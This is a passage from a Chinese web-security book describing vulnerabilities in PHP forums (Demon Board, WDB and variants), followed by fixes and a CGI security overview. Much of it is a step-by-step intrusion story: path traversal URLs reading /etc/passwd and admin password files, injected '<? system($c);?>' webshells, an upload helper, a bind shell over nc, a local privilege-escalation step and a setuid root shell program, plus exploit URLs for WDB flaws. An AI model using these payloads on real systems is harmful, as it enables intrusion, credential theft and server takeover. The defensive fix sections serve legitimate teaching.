然而，这样的流程和程序设计也是存在有很大缺陷的。是的，admin.php 的安全设置完全正确，我们无法跳过发送完表格以后的那些限制。但是 manage_setup.php 这个就不一定了。首先，他没有对 $pass 做声明，因此我们只要为 pass 提交一个值，例如 OK，就可以满足上面那个简单的认证，而获得该页面的所有内容。

其利用方法为：

在 IE 浏览器中查看 http://url/manage_setup.php?pass=ok

这样，我们就成功地对 $pass 做了个声明，使 $pass=ok，而 empty($pass) 由于 $pass=ok 而满足不了条件，因此我们就成功地跳过了该程序开始的那个 if 函数的设置。

让我们继续分析 manage_setup.php 这个文件。

在代码中，我们可以看到有这么一段代码：

```html
<td bgcolor="#E8E8E8">
<td align=right width="26%">管理员：</td>
<td colspan="3">
    <input type="text" name="id" value="<? echo $super_id ?>" size="10" style="BACKGROUND-COLOR: lightyellow; BORDER-BOTTOM: black 1px solid; BORDER-LEFT: black 1px solid; BORDER-RIGHT: black 1px solid; BORDER-TOP: black 1px solid">
</td>
</tr>
<tr bgcolor="#E8E8E8">
<td align=right width="26%">管理员密码：</td>
<td colspan="3">
    <input type="text" name="pwd" value="<? echo $super_pwd ?>" size="10" style="BACKGROUND-COLOR: lightyellow; BORDER-BOTTOM: black 1px solid; BORDER-LEFT: black 1px solid; BORDER-RIGHT: black 1px solid; BORDER-TOP: black 1px solid">
</td>
</tr>
```

大家都应该认为这段代码没问题吧。是的，理论上它是没有任何问题的，但是由于在开头作者使用了`$fp = fopen("../lib/setup.php", "w+")`这段代码，读取了setup.php里面的数据。

这样使得后面的`<? echo $super_id ?>`以及`<? echo $super_pwd ?>`将会直接显示出manage/lib/setup.php里面所包含的管理员的登陆账号和密码。

就这样，由于论坛的作者在程序设计方面的想法还不够严密，从而导致该论坛管理员的用户名和密码落到了非法提交者的手中，从一定程度上构成了对该论坛数据的严重威胁。

（有时候，有些管理员由于懒惰，而往往把自己邮箱、数据库，甚至服务器的用户名和密码均设置成相同或者类似的。例如：有个管理员的邮箱密码为whoami，而服务器密码往往会是whoami或者whoami123之类。如果有个恶意用户通过非法途径获得了该管理员的1个密码，他往往可以通过这个密码进而获得更大的权限。）

顺便要提一下的是，Demon Board在文章处理方面还存在着严重的安全漏洞。由于在处理人员登陆验证方面时缺乏完整性，导致非法人员通过构造一个特殊的请求，可以对该论坛的任何人员发表过的帖子进行处理，从而危害了该论坛所有用户的正常利益。

测试方法：在新窗口中打开帖子修改，然后在该URL后面添加`&username=`“用户名”`&pwd=`“密码”`&submit=`“确定”，只要把用户名和密码替换成任何一个正确的用户资料，然后发送就可以进入帖子修改页面了。

有问题的代码如下：

```php
if($submit)
{
    $pwd=base64_encode($pwd);
    $user_search_query=mysql_query("select * from user_info where username='$username' and password='$pwd'");
    if(mysql_num_rows($user_search_query)==0)
    {
        error(' 您还未注册或者用户名和密码错误！ ');
    }else
    {
        $guest_edit_pass=1;
    }
}
```

作者只是简简单单地对用户名和密码做验证，而忽略了该用户是否是原发帖人的验证，从而导致了该安全问题的存在。

## 二、安全检测

分析完论坛后，我开始从聊天室入手。
先注册个名为Torune的用户，填写完一切需要的东西后，再最后返回的一页中我看到了1个链接。
通过那个链接，我们可以修改自己的个人资料和密码，而此时引起我注意的是IE浏览器上面的地址。
该地址为：http://www.fakesite.com/chat/users/modify.php?user=Torune
进入该页面后，我发现这个modify.php文件犯了和刚才那个manage_setup.php同样的错误，直接把密码、取回密码的问题和答案直接显示出来了。
而当我把user=后面的名字改为管理员的时候，IE浏览器返回的居然是那个管理员的密码等重要资料。一个重要的安全隐患又再次出现。在参考其他PHP+MYSQL格式的聊天室后，我推断modify.php的源代码应该是这样的：

```html
<html><head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>修改个人资料</title>
<body>
<?php
if($user=="")
{echo "用户资料修改失败";}
else
{
require "关于MYSQL连接的设置文件";
$infos=$DB_site->query("SELECT username,password,email,question,answer,comment FROM user where username='".$user."'");
if(!$info=$DB_site->fetch_array($infos))
{
    echo "没有找到指定的用户资料。";
    exit;
}
else{/* 用户资料修改页面的内容，代码省略.....*/}
}?>
</body></html>
```

也许我推断的代码是错误的，但是该聊天室的作者只是简简单单地通过对用户名的处理，而不加任何登陆验证，这一个重要的安全隐患却不容我们忽视。还有安全问题的地方就是聊天室方面还存在有Javascript代码限制不完善等问题。由于无法得到程序原代码，我在这里就不继续对该聊天室进行分析了，不过能得到任何的密码，已经能够对正常用户构成很大的威胁了。好了，现在让我们再看看该网站的其他方面是否也存在安全问题。该网站这段时间提供给网友每人10M的空间，用来给各位网友做个人主页。

就让我们来看看这个上传系统是否有问题，注册了个叫Torune的账号，登陆上传页面。虽然是限制了鼠标右键，并且是小窗口，不过这一切都是无法隐藏上传页面的原代码的。果然，又一个安全隐患出现，该漏洞导致用户可以上传任意文件。

出现问题的代码如下：

```javascript
function Checkvalue(the){
    var yes=true;
    if( the.username.value=='' || the.password.value=='' || the.primarykey.value==''){
        alert('表单中标示 * 的项目必须填写完整！');
        yes=false;
    }
    var fileext=the.primarykey.value.substring(the.primarykey.value.length-4,the.primarykey.value.length)
    fileext=fileext.toLowerCase();
    if (!(fileext=='.htm' || fileext=='.html' || fileext=='.gif' || fileext=='.jpg' || fileext=='.js' || fileext=='.css')){
        alert('对不起，不正确的文件后缀，必须为 .htm, .html, .gif, .jpg, .js 或 .css！');
        the.primarykey.focus();
        yes=false;
    }
    return yes;
}
```

管理员只使用 javascript 对上传的文件做限制，而没有从 PHP 代码下进行限制。

我们只需要把那个网页下载到本地后，修改原代码中的 `if (!(fileext=='.htm' || fileext=='.html' || fileext=='.gif' || fileext=='.jpg' || fileext=='.js' || fileext=='.css'))`，将它修改成 `if (!(fileext=='.htm' || fileext=='.html' || fileext=='.gif' || fileext=='.jpg' || fileext=='.js' || fileext=='.css' || fileext=='.php' || fileext=='.asp'))`，并且修改 FORM 里头 action 的地址为 `http://www.fakesite.com/homepage/user/upload.php`。

这样，我们就把这个简单的限制突破了，接下来我们就可以随意上传 webshell 了。我首先上传了一个 PHP 文件，用来刺探主机信息。代码很简单：

```php
<?
phpinfo();
?>
```

在 IE 浏览器返回的资料中，我们很成功地收集到一些重要资料，例如：

`_SERVER["PATH_TRANSLATED"] F:\\www\\home\\homepage\\torune\\phpinfo.php`，这个就是我这个程序在对方主机上面的物理位置。

`_SERVER["APPL_PHYSICAL_PATH"] F:\\www\\`，这个就是对方网站在其主机上面的物理位置。

因此，我又上传了这个 PHP 程序，以方便以后上传文件。

```php
<? if ($submit) {
    copy($File, "f:/www/home/homepage/torune/$File_name");
    unlink($File);
    header("Location: upload.php");
} else { ?>
<HTML><HEAD>
<TITLE>Upload</TITLE>
</HEAD>
<BODY>
<TABLE>
```

### 3.8 我们是如何侵入某知名安全网的

XX安全网（www.target.net）是国内一家原创内容很多、较为知名的黑客/安全站点，其风格令人喜欢，但出于好奇（绝无恶意），我们开始了行动……

首先做了些简单探测，结果自然是没什么收获；看来还是从Web下手现实点。

整个网站由PHP驱动，我们感兴趣的是文章、下载、论坛3部分，首先随便点击了一篇文章：

http://www.target.net/article/showarticle.php?id=1053410756

看到了 id=1053410756，我们兴奋了起来。继续提交如下请求：

http://www.target.net/article/showarticle.php?id=1053410756'

返回：

Warning: file('html/1053410756'.htm)--No such file or directory in /usr/home/wu127736/www/article/showarticle.php on line 5
Warning: Variable passed to each() is not an array or object in /usr/home/wu127736/www/article/showarticle.php on line 10

这很出乎我们的意料，因为起初探测得知服务器跑了MySql，而文章管理系统的数据库完全是基于文本的，再看它做了什么过滤没有。提交请求：

http://www.target.net/article/showarticle.php?id=../../index

结果返回了主页面，虽然这里没有任何安全措施，但也没什么值得利用的，我们只能读取任意html文件，sigh…文章系统还是简单了点，没有施展拳脚的地方，下载系统也是一样，也没什么搞头。于是，我们把注意力集中到了网站论坛。

我们试图得到论坛名称和版本，但很遗憾，论坛似乎是他们自己写的，结束游戏吗？不，对于我们Web安全爱好者来说，“瞎子摸象”趣味无穷。

经过一番常规试探，/bbs/bbsprofile.php 文件吸引了我们的眼球：

http://www.target.net/bbs/bbsprofile.php?job=show&target=WinEggDrop

结果返回了 WinEggDrop 这位朋友的个人信息，接着提交：

http://www.target.net/bbs/bbsprofile.php?job=show&target=WinEggDrop'

返回：
状态：发生错误，你所指定的用户不存在

继续提交如下请求：

http://www.target.net/bbs/bbsprofile.php?job=show&target=WinEggDrop%20and%201=1

返回：
状态：发生错误，你所指定的用户不存在

现在我们开始怀疑：BBS 不是基于 MySql 的？

提交：

http://www.target.net/bbs/bbsprofile.php?job=show&target=WinEggDrop/

返回：

Warning: stat failed for user_dir_Target.nEt/WinEggDrop/ (errno=20 - Not a directory) in /usr/home/wu127736/www/bbs/bbsprofile.php on line 24

状态：发生错误，你所指定的用户不存在。

这着实让我们大吃一惊，第一反应是：论坛数据是基于文本的。提交如下 URL 证实了我们的猜测：

http://www.target.net/bbs/bbsprofile.php?job=show&target=../../../../../../../../etc/passwd

哗啦……密码档文件充斥了整个屏幕，迅速处理后分离得到 1340 个用户，原来这台服务器是国内某著名公司的虚拟主机。这个时候，我们首先的想法是破解FTP口令，但考虑到虚拟主机FTP口令一般是非常复杂的，犹豫之后，我们决定还是在Web上继续。

既然可以读取系统任意文件，为什么不在网站各个文件中找找有用的信息呢？
经过一番查找，通过以下两个请求：

http://www.target.net/bbs/bbsprofile.php?job=show&target=../../article/setup.php

http://www.target.net/bbs/bbsprofile.php?job=show&target=../../download/setup.php

得到了文章系统和下载系统的密码 3sfer4w&6（经处理），密码够复杂，我们立刻利用这个密码尝试

登录FTP，但失败了。

接着，在/bbs目录下翻看文件代码的时候，我们闻到了熟悉的味道：该BBS是根据旅行论坛（WDB）改写的！鉴于此，我们回头熟悉自己机器上安装的WDB论坛的文件结构，得知 WDB 的两大敏感文件是/datafile目录下的idunique.php和superadmin.php，前者是保存用户数据的目录，后者是保存超级用户账号密码的文件，一般内容是这样的：

idunique.php:
<? $id_unique='dataname';

superadmin.php:
<? $admin_name='root'; $admin_password='superpassword';

```

于是提交如下请求：

http://www.target.net/bbs/bbsprofile.php?job=show&target=../datafile/idunique.php

通过查看返回页面的源文件，得到：

<? $admin_name='root'; $admin_password='superpassword';

对应我们机器上的WDB可以判断，hack34dd_ewfl是保存用户信息的隐藏目录名，而保存用户信息的是一个无后缀的文本文件，因此直接请求该文件便可返回用户所有信息，如：

http://www.target.net/bbs/hack34dd_ewfl/someone

返回：（已经处理过）

```
text
someone|ilikecat|no_portait.gif%http://www.***.net/personal_images/1020952877.jpg%100%100|***@target.net|7623805|1048862812|&nbsp;,&nbsp;,&nbsp;,&nbsp;,&nbsp;,&nbsp;,&nbsp;,[color=red]Welcome&nbsp;to&nbsp;Our&nbsp;HomePage[/color]|<br><br>|http://***.yeah.net|218.194.38.92|==*==|1053775642|1536||text|50

```

太棒了，我们可以得到任意用户的口令，更好的是口令没有加密。但BBS后台管理的口令不在这里，所以我们接着请求：

http://www.target.net/bbs/bbsprofile.php?job=show&target=../datafile/superadmin.php

查看返回页面的源文件，得到：

<? $admin_name='Target.net'; $admin_password='er5768*&^4h20a2'; #处理

原密码异常复杂，我们怀疑经过某种特殊加密……然而进入：

http://www.target.net/bbs/admin.php

成功登录后才知道，并不是加密过的，虚惊一场。

这个时候，已经得到了BBS的最高权限，但我们并不满足于此。

在BBS前后巡视一番后，我们发现论坛没有上传文件的功能，莫名的有点气恼，但好事多磨。我们转到BBS后台管理，看看能不能对论坛的配置文件上动点手脚。

首先看到了“公告设置”，脚本会把管理员的公告写到/datafile/announcement.php文件里去，正常情况下内容是这样的：

```
php
<? $announcement='本站公告';

```

我们立马把公告设置为cat';phpinfo();$1='1
但失败了，我们提交的内容变为了cat';phpinfo();$1='\'1
马上看处理脚本代码：

```
php
$fp=fopen("datafile/announcement.php", "w");
fputs($fp, "<? $announcement='".str_replace("\"", "\\\"", stripslashes($announcement))."'; ?>");
fclose($fp);

```

郁闷，难怪，原来把单引号处理了，我们没有气馁，就在文件审查快结束的时候，我们的努力得到了回报。setipbans.php文件给了我们机会，这个文件给管理员创建“IP 禁止列表”，可能是对管理员的过分放心，脚本没有对管理员的输入做任何检查，可见代码编写者并没有考虑到论坛失陷后服务器的安全，毫不客气，我们先写入：

```
php
<? phpinfo();?>

```

提交请求：

```
text
http://www.target.net/bbs/datafile/ipbans.php

```

哈，成功执行，再另写入：

```
php
<? system($c);?>

```

继续提交：

```
text
http://www.target.net/bbs/datafile/ipbans.php?c=ls

```

返回：

```
text
0.txt 10.txt 202.txt 210.txt 61.txt admin.php admin_user.php announcement.php badwords.php bannames.php config.php cs.php forumdata.php hack_name.php hello.txt idunique.php index.html ipbans.php newpost.php newuser.php online.php sort_style.php superadmin.php tbuser.php topsys.php up.php userlist.php usertitle.php

```

成功了，但入侵还没有结束，由于起床起得很晚，大家都没有吃东西，所以我们暂时吃了点东西。回来后，我们又立刻投入了工作：

我们得上传点东西上去，不是吗？于是向 /datafile/ipbans.php 写入了：

```
php
<? copy($a,$b);unlink($a);?>

```

PHP真是让我们感到惬意，上面这段代码虽然简短，但它却能很好地完成文件上传工作。在本地做好上传页面后，我们迅速上传一个操作更为方便的webshell，接着便是老套路，尽管接下来的老套路让人如此厌烦，但作为一个完整的过程，我们必须耐心完成。

上传了一个文件、编译、执行，我们很顺利地在主机上打开了12345端口。

```
text
>nc -vv www.target.net 12345
Warning: inverse host lookup failed for 211.154.***.***: h_errno 11004: NO_DATA

www.target.net [211.154.***.***] 12345 (?) open
id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
uname -a
FreeBSD a1008.***.com 3.4-RELEASE FreeBSD 3.4-RELEASE #2: Wed Nov 15 00:38:28 CST 2000 sysadmin@a1004.***.com:/usr/src/sys/compile/yang i386
// 哦，好老的版本，一位朋友 Ciel（感谢Ciel）推荐了 chpass.c，编译后

./chpass 7
...
id
uid=65534(nobody) euid=0(root) gid=65534(nobody) groups=65534(nobody)
```

```
// 我们马上写了个小程序 sh.c
#include <stdio.h>
int main(){
    setuid(0);
    setgid(0);
    execl("/bin/csh", "/var/www/bin/httpd", NULL);
}

gcc -o sh sh.c
./sh
id
uid=0(root) gid=0(wheel) groups=0(wheel), 65534(nobody)

```

故事结束了。毋庸置疑，对 PsKey 和 EnvyMask 来说，这是美妙的一天。出于对比安全网原创精神的尊重，我们并没有丁点“黑”的念头，我们试图联系网站管理员，希望他们明晚能睡个好觉。

## 3.9 WDB及其各个美化、改良版的存在严重漏洞

### 一、Sendmail.php 变量过滤不严漏洞

1. 涉及版本和平台  
受影响版本：WDB、南宫紫剑修改版、若尘美化版、BMB（Bluemagic论坛）……当前所有版本。  
受影响操作系统：Windows。

2. 描述  
各版本官方站点：  
WDB：http://www.lvxing.net/  
南宫紫剑修改版：http://qbit.w18.net/wdb  
若尘美化版：http://wenhebbs.126.com/  
BMB：http://www.bmforum.com/  
由于它们的 Sendmail.php 文件存在变量过滤不严漏洞，可能导致系统敏感文件泄露，非法用户可以获取任意用户包括论坛管理员的密码，进而威胁论坛或服务器安全。

3. 具体漏洞描述  
试看 Sendmail.php 中的相关代码：

```
php
<?
if ($login_status==0) print_err();
if (strpos($target, "/")!==false) die;
if ($target && file_exists("$id_unique/$target")) {
    $usertemp=readfromfile1("$id_unique/$target");
    $userdetail=explode("|", $usertemp);
    $usermail=$userdetail[3];
    $receiver=$userdetail[0];
}
...
if (!empty($action) || $action=="fail") {
?>
```

[PAGE 86]

```
html
<table width="100%" border="0" cellspacing="1" cellpadding="3">
<tr>
    <td bgcolor=<?=$titlecolor?>><font class=title>&nbsp;给<?=$receiver?>发信 <font color="red">
    <? if ($status) echo $status; ?></font></font></td>
...
```

这段脚本原意是获取用户提交的发送邮件的对象（$target）。$target 即为 $id_unique 目录（保存用户数据的敏感目录）下某一用户数据文件，里面包含用户账号、密码等重要信息。上面代码首先检查是否存在 $target，如存在，则获取用户名($userdetail[0])并赋给 $receiver 变量、用户邮箱（$userdetail[3]）赋给 $usermail 变量，并在浏览器上把 $receiver 反馈输出给浏览者。但代码只对 $target 变量作了简单限制即不能包含 “/”，在 Windows 操作系统下，我们可以使用类似 “..\..\” 的方法来跳转目录以读取任意文件。

应该读取什么文件呢？让我们先了解一下 WDB：它的重要文件都保存在 /datafile 目录下，对我们有用的是 idunique.php 和 superadmin.php，前者是保存用户数据的目录，后者是保存超级用户账号密码的文件，一般内容是这样的：

```
php
idunique.php
<? $id_unique='members';

superadmin.php（注：某些 WDB 用户密码未加密，如若尘美化版）
<? $admin_name='root'; $admin_password='765dfh';

```

因为 Sendmail.php 以 “|” 为间隔符来分割处理文件，而 idunique.php 和 superadmin.php 不包含 “|”。因此，$receiver=$userdetail[0] 返回的是文件所有内容，我们直接在浏览器上是看不到它们的，但 “查看网页源文件” 就会发现，它们静静地呆在那里等我们来取。

### 4. 利用方法

先注册一用户，然后登录论坛，接着提交如下 URL：

```
text
http://www.target.com/php/rcwdb/sendmail.php?target=..\datafile\superadmin.php
查看源文件，我们会看到：
<font class=title>&nbsp;给<? $admin_name='root'; $admin_password='765dfh'; 发信 <font color="red">

```

哈哈，得到超级管理员密码了。再提交如下 URL：

```
text
http://www.target.com/php/rcwdb/sendmail.php?target=..\datafile\idunique.php
查看源文件我们会看到：
<font class=title>&nbsp;给<? $id_unique='members'; 发信 <font color="red"></font>

```

Good，我们得到保存用户信息的隐藏目录名了，它就是 members，而保存用户信息的是一个无后缀的文本文档。因此，我们直接请求该文件便可返回用户所有信息，如提交如下请求：

```
text
http://www.target.com/php/rcwdb/members/aaa
则返回：
Aaalaaaaaa|0.gif|%%49cn@sohu.com||1052974418|||我很懒，什么也不想写！|||0|1|none|

```

这样，我们便可知道，aaa 用户的密码为 aaaaaaa。

### 二、announcesys.php 变量未初始化漏洞和变量未过滤漏洞

+   1. 涉及版本
   - 南宫紫剑修改版。

2. 描述

[PAGE 87]

由于其 announcesys.php 文件 $announceadmin 变量未经初始化，可能导致非法用户绕开 announcesys.php 验证，并有可能向系统文件中写入恶意代码，进而威胁论坛或服务器安全。

### 3. 具体漏洞分析

试看相关代码：

```
...
if ($login_status==1 && ($username==$admin_name ||($manager && in_array($username,$manager))))
{$announceadmin=1;}
//———让增加的管理员有权管理！——————
if (file_exists("datafile/admin_user.php")) {
    include("datafile/admin_user.php");
    if ($admin_user && in_array($username,$admin_user)) {
        $announceadmin=1;
    }
}
...
if ($job=="write") {
if ($announceadmin!=1) {require("header.php");
echo "对不起，未登陆或者身份不正确，请 <a href='javascript:history.back(1);'>返回检查</a>";
...
$content=stripslashes(safe_convert($content));
$title=stripslashes(safe_convert($title));
$title="|".$title;
$new="$user|$title|$timestamp|$content|$member\n";

$oldcount=count($msg);
if ($oldcount>$msgg_max) {
for ($i=$msgg_max; $i<$oldcount; $i++) unset($msg);
}

$old=implode("",$msg);
writetofile("datafile/announcesys.php",$new.$old);

echo "<br>已经成功发布<br><br><br><a href='announcesys.php'>点这里返回公告中心</a>";
exit;
}
...
if ($job=="yesclear") {
if ($announceadmin!=1) {require("header.php");
echo "对不起，未登录或者身份不正确，请 <a href='javascript:history.back(1);'>返回检查</a>";
require("footer.php");
exit;}
if (file_exists("datafile/announcesys.php")) unlink("datafile/announcesys.php");
echo "<br>您的所有公告已被成功清空";
exit;
}
...
```

[PAGE 88]

可以看出：$announceadmin 变量并未初始化，如果我们直接指定 “announceadmin=1” 便可以绕开验证执行 “write” 和 “clear” 操作，更加有趣的是，$membern 没有过滤。因此，我们完全可以写个 webshell 到 /datafile/announcesys.php 文件中。

### 4. 利用方法

提交如下 URL：

```
http://www.target.com/php/wdb/wdb/announcesys.php?job=yesclear&announceadmin=1
```

将会删除 /datafile/announcesys.php 文件；

再提交如下 URL：

```
http://www.target.com/php/wdb/wdb/announcesys.php?job=write&announceadmin=1&content=ilikecat&title=dog&step=2&membern=<?%20system($cmd);?>
```

然后请求：

```
http://www.target.com/php/wdb/wdb/datafile/announcesys.php?cmd=whoami
```

就有可能执行 whoami 命令，攻击可能遇到的具体问题不在本文讨论范围之内，这里不作多余说明！

# 后记：

本节所述漏洞涉及版本比较多，希望大家不要用于恶意攻击，否则后果自行承担吧。

### 3.10 WDB漏洞的修复及相关防范

上节内容中，大家可以了解到各个流行的 WDB 论坛存在的两个严重的漏洞：Sendmail.php 变量过滤不严漏洞和 announcesys.php 变量未初始化漏洞及变量未过滤漏洞，这两个漏洞都能给论坛，甚至是系统安全带来很大的威胁。因此，本节向大家介绍修复这两个漏洞的方法，并简要地谈谈此类漏洞的安全防范。

第一个漏洞的机理是因为脚本没有过滤 “.” 和 “\”，导致攻击者可以跳转目录读取系统敏感文件。从代码中可以看到，脚本过滤了 “/”，显然作者考虑不够周全。仅过滤这个字符是不够的，在 Windows 平台下，攻击者可能利用类似 “..\..\” 的方法来跳转目录以读取任意文件，所以我们只有把这些危险字符全部过滤干净，才能解决此漏洞。临时解决方案如下：

```
把 Sendmail.php 文件中语句

if (strpos($target, "/") !==false) die;
```

改为

```
if ( (strpos($target, "/") !==false) || (strpos($target, "\\") !==false) || (strpos($target, ".") !==false) )
die;
```

如此修改后，当攻击者尝试使用这些字符跳转目录时，脚本便会停止执行。

而第二个漏洞则首先是因为 $announceadmin 变量没有初始化，导致非法用户可以绕开验证，接着是 $membern 变量没有经过任何安全过滤，使得攻击者有可能向系统文件中写入恶意代码，从而威胁论坛或者服务器安全。既然问题很清楚了，那解决起来也很简单，这里先给出临时解决方案：

在 announcesys.php 文件顶部加上如下语句：

```
$announceadmin=0;  # 初始化变量
```

[PAGE 89]

```
$member=stripslashes(safe_convert($member));



```

另外，我们借助 PHP 配置选项也可以减缓这一漏洞的威胁，具体做法是把配置文件 php.ini 中的 register_globals 选项关闭，即 “register_globals = Off”。

接下来，我给大家简要地谈谈类似如上两种漏洞的防范。

第一类漏洞危害比较大，在各个脚本语言程序中都可能存在。其往往是因为程序员没有过滤 “..”、“/”、“\” 而造成系统重要文件泄露。现在，一般的程序员都知道要过滤 “..” 或 “/”，但还是有很多人经常忽略掉 “\”，还记得《飞客杂志》第 55 期雨林小狗的经典文章《Perl CGI problems》吗？文中着重提到了反斜杠在翻转目录中的妙用：

如下匹配表达式试图过滤 “..”：`s/\.\.//g;`

它会把攻击者的 “/usr/tmp/../../etc/passwd” 变为 “/usr/tmp///etc/passwd”

但要是攻击者提交 “/usr/tmp/.\.\./.\./etc/passwd”，他便可能如愿以偿。

因此，我们程序员在处理用户提交数据时不仅不能手软，而且还要万分细心，千万别漏掉什么元字符了，W3C 建议CGI 程序员过滤掉推荐过滤 “& ; ' \" | * ? ~ < > ^ ( ) [ ] { } $ \n \r \t \0 # ../” 等字符。

第二类漏洞则是 PHP 安全中的经典问题——全局变量问题。全局变量的确给 PHP 程序员带来了很多方便，但烦人的是它也带来了同样多的安全问题。就拿 WDB 第二个漏洞来说，攻击者只需自己指定 “announceadmin=1”，那么善良的全局变量便会天真地相信并将 $announceadmin 变量值设置为 1，从而导致攻击者大摇大摆绕过验证。尽管在使用变量前进行初始化可以解决这一问题，并且也可以使用 error_reporting 配置变量来提醒你初始化使用的变量，但这给程序员带来的麻烦未免也太多了。过去大家可以使用 $HTTP_GET_VARS 和 $HTTP_POST_VARS 这样的联合数组来访问 GET 和 POST 的值，而现在自动全局数组变量则是个不错的选择，因为从 PHP 4.2.0 版本开始，php.ini 中的设置选项 register_globals 默认值变成了 Off，这样我们使用自 PHP 4.1.0 版本引入的自动全局数组变量会更好些，这样你可以杜绝此类安全问题的出现，但不幸的是，抱残守缺的懒惰的程序员老是喜欢打开这扇危险之门。

[PAGE 90]

## # 第 4 章 CGI 脚本攻击与防范

## 4.1 CGI 安全概述

经过一段时间的研究，对目前比较流行的 CGI 语言有了比较深入的理解，随着理解的加深，也越来越关注 CGI 的安全问题，在这里和大家讨论一下。

+   1. 什么是 CGI?

不要奇怪，有相当一部分人对 CGI 的概念还比较模糊，他们眼中的 CGI 就是 Perl CGI，其实 CGI 是 Common Gateway Interface（公用网关接口）的简称，并不特指一种语言。事实上，几乎任何支持标准输入输出的语言都可以称为 CGI 语言，如 Perl，Php，C，VC++ 等都可以称为 CGI 语言。

+   2. 什么是 CGI 安全？

这里所说的 CGI 安全，主要包括两个方面，一是 Web 服务器的安全，一是 CGI 语言的安全（其实对于解释型 CGI 语言，还涉及到解释器的安全，不过由于它在 CGI 安全中所占的比例不大，所以我们就不考虑了）。对于不同的 CGI 语言，我们所说的 CGI 安全可能有些不同，比如说对于 ASP 和 JSP，我们所说的 CGI 安全主要是指 Web 服务器的安全。而对于 Php 和 Perl，我们所说的 CGI 安全就主要是指 CGI 语言的安全。

+   3. CGI 存在什么安全问题？

既然 CGI 安全包括两个方面，那我们就分别从这两个方面来介绍一下 CGI 的安全性，下面依次介绍 Web 服务器 的安全和 CGI 语言 的安全。

Web 服务器的问题主要包括两个方面，一是 Web 服务器软件编制中的 BUG，二是服务器配置错误。这可能导致 CGI 源代码泄露，物理路径信息泄露，系统敏感信息泄露或远程执行任意指令。

下面主要讨论一下 CGI 语言的安全问题。由于 CGI 语言的复杂性，所以这方面的安全问题也比较多，参考 Securityfocus 关于漏洞起因的分类，我们可以为 CGI 语言漏洞分为以下几类：

+   * 配置错误

这里所说的配置错误主要指 CGI 程序和数据文件的权限设置不当，这可能导致 CGI 源代码或敏感信息泄露。还有一个经常犯的错误就是安装完 CGI 程序后没有删除安装脚本，这样攻击者就可能远程重置数据。前些日子 “XX 大联盟” 论坛多次被黑就是这个低级错误所致。

+   * 边界条件错误

这个错误主要针对 C 语言编写的 CGI，利用这个错误，攻击者可能发起缓冲区溢出攻击，从而提升权限。

+   * 访问验证错误

这个问题主要是因为用于验证的条件不足以确定用户的身份而造成的，经常会导致未经授权访问，修

[PAGE 91]

攻击至删除没有访问权限的内容。用于确定用户身份的方法一般有两种，一是帐号和密码，一是 Session 认证。而不安全的认证方法包括 userid 认证、Cookie 认证等等。

+   * 来源验证错误

比较常见的利用这种错误进行攻击的方法就是 DoS，也就是拒绝服务攻击，如我们知道的灌水机，就是利用 CGI 程序没有对文章的来源进行验证，从而不间断的发文章，最后导致服务器硬盘充满而挂起。

+   * 输入验证错误

这种错误导致的安全问题最多，主要是因为没有过滤特殊字符。比如说，没有过滤 “%20” 造成的畸形注册，没有过滤 “../” 经常造成泄露系统文件，没有过滤 “$” 经常导致泄露网页中的敏感信息，没有过滤 “;” 经常导致执行任意系统指令，没有过滤 “|” 或 “\t” 经常导致文本文件攻击，没有过滤 “'” 和 “#” 经常导致 SQL 数据库攻击，没有过滤 “<” 和 “>” 导致的 Cross-Site Scripting 攻击等。

+   * 意外情况处理失败

这种错误也很常见，如没有检查文件是否存在就直接打开设备文件导致拒绝服务，没有检查文件是否存在就打开文件提取内容进行比较而绕过验证，上下文攻击导致执行任意代码等等。

+   * 策略错误

这种错误主要是由于编制 CGI 程序的程序员

的决策造成的。如原始密码生成机制脆弱导致穷举密码导致在 Cookie 中明文存放帐号密码导致敏感信息泄露，使用与 CGI 程序不同的扩展名扩展名存储敏感信息导致该文件被直接下载，丢失密码模块在确认用户身份之后直接让用户修改密码而不是把密码发到用户的注册信箱，登陆时采用帐号和加密后的密码进行认证导致攻击者不需要知道用户的原始密码就能够登陆等。

+   * 习惯问题

程序员的习惯也可能导致安全问题，如使用某些文本编辑器修改 CGI 程序时，经常会生成 “.bak” 文件，如果程序员编辑完后没有删除这些备份文件，则可能导致 CGI 源代码泄露。另外，如果程序员总喜欢把一些敏感信息（如帐号密码）放在 CGI 文件中的话，只要攻击者对该 CGI 文件有读权限（或者利用前面介绍的一些攻击方法）就可能导致敏感信息泄露。

+   * 使用错误

主要是一些函数的使用错误，如 Perl 中的 “die” 函数，如果没有在错误信息后面加上 “\n” 的话，就极可能导致物理路径泄露。

+   * 其它错误

此外，还有一些其它难以归类的错误，如 “非 1 即 0” 导致绕过认证的问题。

# 4. 如果让你的 CGI 更安全？

了解了 CGI 的安全问题，我们也该知道怎么加强 CGI 的安全了吧？下面简单总结一下作为参考：

+   * 使用最新版本的 Web 服务器，安装最新的补丁程序，正确配置服务器
* 按照帮助文件正确安装 CGI 程序，删除不必要的安装文件和临时文件
* 使用 C 编写 CGI 程序时，使用安全的函数
* 使用安全有效的验证用户身份的方法
* 验证用户的来源，防止用户短时间内过多动作
* 推荐过滤 “& ; ' ` \ | * ? ~ < > ^ ( ) [ ] { } $ \n \r \t \0 # : ./”
* 注意处理好意外情况
* 实

### 4.2 CGI漏洞攻击

#### 一、介绍

CGI程序是安全隐患的主要来源，在一个典型的站点中，服务项目和配置文件可能都很安全，但是如果CGI程序在没有作安全检测之前，就可能存在着很多严重的漏洞。

#### 二、CGI程序危险的因素

